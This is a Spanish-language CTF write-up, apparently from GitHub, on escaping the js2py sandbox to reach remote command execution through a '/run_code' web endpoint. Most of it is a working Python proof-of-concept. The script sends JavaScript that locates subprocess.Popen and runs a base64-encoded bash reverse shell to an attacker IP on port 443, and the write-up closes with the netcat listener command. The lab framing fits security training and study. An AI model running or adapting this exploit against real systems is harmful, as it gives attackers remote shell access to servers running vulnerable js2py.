 # Explotación de js2py vulnerable (RCE)

## Descripción

[js2py](https://github.com/PiotrDabkowski/Js2Py) es una librería de Python que permite ejecutar código JavaScript desde Python.
En versiones vulnerables, es posible abusar de la forma en que se manejan los objetos internos para escapar del sandbox y acceder a clases de Python, llegando a **ejecución remota de comandos (RCE)**.

En un escenario típico de CTF, una aplicación web expone un endpoint donde el usuario puede enviar código JavaScript para ser evaluado mediante js2py.
Si la versión es vulnerable (ej: filtrada en cabeceras, banners o errores), podemos buscar PoCs públicas asociadas a un CVE y adaptarlas para ganar ejecución de comandos.

---

## Escenario

Aplicación vulnerable con endpoint:

```
POST /run_code
{
    "code": "<codigo JS>"
}
```

La respuesta devuelve el resultado de la ejecución en el servidor.

---

## Explotación

### 1. Reverse shell con js2py

Partiendo de un PoC público para el CVE correspondiente, se adaptó un payload JavaScript capaz de:

* Escapar del sandbox de js2py.
* Localizar la clase `subprocess.Popen`.
* Ejecutar comandos arbitrarios en el host.

### 2. Script PoC en Python

```python
#!/usr/bin/env python3
import requests
import json

# -----------------------------
# Configuración
# -----------------------------
TARGET_HOST = "10.10.11.82"
TARGET_PORT = 8000
ENDPOINT = "/run_code"
URL = f"http://{TARGET_HOST}:{TARGET_PORT}{ENDPOINT}"

# Reverse shell en base64
CMD = "printf L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYvNDQzIDA+JjEK |base64 -d|bash"

# -----------------------------
# Payload JavaScript adaptado
# -----------------------------
payload = f"""
let hacked, bymarve, n11;
let getattr, obj;

hacked = Object.getOwnPropertyNames({{}});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");
obj = n11("__class__").__base__;

function findpopen(o) {{
    let result;
    for (let i in o.__subclasses__()) {{
        let item = o.__subclasses__()[i];
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {{
            return item;
        }}
        if(item.__name__ != "type" && (result = findpopen(item))) {{
            return result;
        }}
    }}
}}

n11 = findpopen(obj)("{CMD}", -1, null, -1, -1, -1, null, null, true).communicate();
console.log(n11);
"""

# -----------------------------
# Preparar datos JSON
# -----------------------------
json_data = json.dumps({"code": payload})
headers = {"Content-Type": "application/json"}

# -----------------------------
# Enviar la petición
# -----------------------------
try:
    response = requests.post(URL, headers=headers, data=json_data, timeout=5)
    print("[+] Payload enviado correctamente.")
    print("----- RESPUESTA DEL SERVIDOR -----")
    print(response.text)
except requests.exceptions.RequestException as e:
    print(f"❌ Error al conectar con el servidor: {e}")
```

---

### 3. Ejecución

Al ejecutar el PoC, se obtiene una **reverse shell** en el atacante:

```bash
nc -lvnp 443
```